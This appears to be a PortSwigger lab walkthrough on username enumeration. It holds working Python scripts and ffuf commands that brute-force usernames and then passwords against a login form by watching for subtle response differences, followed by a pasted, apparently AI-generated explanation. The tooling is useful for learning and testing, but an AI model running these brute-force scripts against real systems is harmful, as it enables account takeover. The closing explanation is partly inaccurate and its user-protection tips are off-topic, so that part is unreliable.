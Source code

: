 # Username enumeration with subtly different responses

## Enumerating username with subtly different responses using Python

```python
import requests, urllib3
import sys
from string import printable

urllib3.disable_warnings()

class AuthBruteForceUsername:

    def __init__(self):
        # get command line arguments
        self.args = sys.argv
        self.proxies = {
            "https": "https://0.0.0.0:8088"
        }
        self.req = requests.Session()
        self.password = ""
        self.username = ""

    def brute_force_username(self):
        print("🔮 Determining username")
        usernames = []
        with open("auth-subtly/auth-subtly-usernames") as f:
            usernames = f.readlines()
        for username in usernames:
            print(f"Trying username: {username.strip()}❓")
            # send request with form data: username, password
            self.username = username.strip()
            self.password = "a"
            self.url = self.args[1]
            self.cookies = {}
            response = self.req.post(self.url, data={"username": self.username, "password": "a"}, proxies=self.proxies, verify=False)
            if response.text and not "Invalid username or password." in response.text:
                print(f"⚖️ Found username: {self.username}")
                with open("auth-subtly-username-result", "w") as f:
                    f.write(self.username)
                break
        exit(0)

AuthBruteForceUsername().brute_force_username()
```

<a href="https://asciinema.org/a/JFHa04yr1mmtYInf6xtDY896F" target="_blank"><img src="https://asciinema.org/a/JFHa04yr1mmtYInf6xtDY896F.svg" /></a>

## Brute forcing password with subtly different responses using Python

```python
import requests, urllib3
import sys
from string import printable

urllib3.disable_warnings()

class AuthBruteForcePassword:

    def __init__(self):
        # get command line arguments
        self.args = sys.argv
        self.proxies = {
            "https": "https://0.0.0.0:8088"
        }
        self.req = requests.Session()
        self.password = ""
        self.username = ""
        with open("auth-subtly-username-result") as f:
            self.username = f.read().strip()

    def brute_force_password(self):
        print("🔮 Determining passwword for username", self.username)
        passwords = []
        with open("auth/auth-lab-passwords") as f:
            passwords = f.readlines()
        for password in passwords:
            print(f"Trying password: {password.strip()}❓")
            # send request with form data: username, password
            self.password = password.strip()
            self.url = self.args[1]
            self.cookies = {}
            response = self.req.post(self.url, data={"username": self.username, "password": self.password}, proxies=self.proxies, verify=False)
            if response.text and not "Invalid username or password" in response.text:
                print(f"⚖️ Found password: {self.password}")
                with open("auth-subtly-password-result", "w") as f:
                    f.write(self.password)
                break
        exit(0)

AuthBruteForcePassword().brute_force_password()
```

<a href="https://asciinema.org/a/jMQbLSGHvO6bYvzMFjTkClSEe" target="_blank"><img src="https://asciinema.org/a/jMQbLSGHvO6bYvzMFjTkClSEe.svg" /></a>

## ffuf username and password enumeration with slightly different response

### Username

This websites respond slightly different when username is valid although 
password is not. Using ffuf we use `-fw` option to filter responses that has 
the same word count as the invalid username response. This will give us the
username that is valid. 

```shell
ffuf -X POST -replay-proxy http://0.0.0.0:8088 -u https://0ab600d5037c308284b8863000cc00cf.web-security-academy.net/login -w auth-subtly/auth-subtly-usernames -c -v -r -d "username=FUZZ&password=hihihi" -fw 1328,1319
```

### Password

Take the username from above command, and use it to brute force the password. Use the `-fs` flag to filter out responses that are mostly similar. This will give just the response that is different, which is the correct password.

```shell
ffuf -X POST -replay-proxy http://0.0.0.0:8088 -u https://0ab600d5037c308284b8863000cc00cf.web-security-academy.net/login -w auth-subtly/auth-subtly-passwords -c -v -r -d "username=_USERNAME_FROM_COMMAND_ABOVE_&password=FUZZ" -fw 1329,1320
```

<a href="https://asciinema.org/a/Z54jP3M9le38dV8LAMFdjEcvF" target="_blank"><img src="https://asciinema.org/a/Z54jP3M9le38dV8LAMFdjEcvF.svg" /></a>

Sure. The Username enumeration via subtly different responses tutorial example in PortSwigger Academy demonstrates how a website can be vulnerable to username enumeration attacks by using subtly different responses.

In the tutorial, the user is first prompted to enter their username and password. After they have successfully entered their credentials, they are logged in to the website.

The website has a subtle difference in responses for valid and invalid usernames. Specifically, the website returns a different error message for invalid usernames.

This means that an attacker can use this subtle difference to enumerate valid usernames. Specifically, the attacker can submit a list of usernames to the website and see if the response contains a specific error message. If the response contains the error message, the attacker can infer that the username is invalid.

To exploit this vulnerability, the attacker would first need to obtain a list of possible usernames for the website. This could be done through a variety of methods, such as social engineering or dictionary attacks.

Once the attacker has a list of possible usernames, they would need to submit the list to the website and see if the response contains a specific error message. If the response contains the error message, the attacker can infer that the username is invalid. The attacker can then continue to submit usernames until they find one that does not contain the error message, indicating that it is a valid username.

The Username enumeration via subtly different responses tutorial example is a good demonstration of how a website can be vulnerable to username enumeration attacks by using subtly different responses. It is important to be aware of these vulnerabilities and to take steps to protect yourself.

Here are some tips for protecting yourself from username enumeration attacks:

* Use a strong username for your online accounts.
* Change your usernames regularly.
* Be suspicious of emails or text messages that ask for your personal information.
* Install antivirus software and keep it up to date.
* Be careful about what websites you visit and what links you click on.
* Train yourself and your employees on how to identify and avoid phishing attacks.

By following these tips, you can help to protect yourself from username enumeration attacks and keep your accounts safe.

In addition to the tips above, there are a few things that the website can do to protect itself from username enumeration attacks:

* Use a rate limiting mechanism to prevent users from submitting too many requests in a short period of time.
* Use a honeypot account to lure attackers into entering invalid usernames.
* Implement a CAPTCHA challenge to verify that the user is human.
* Use a random error message mechanism to prevent attackers from identifying valid usernames from error messages.

By implementing these measures, the website can help to protect itself from username enumeration attacks.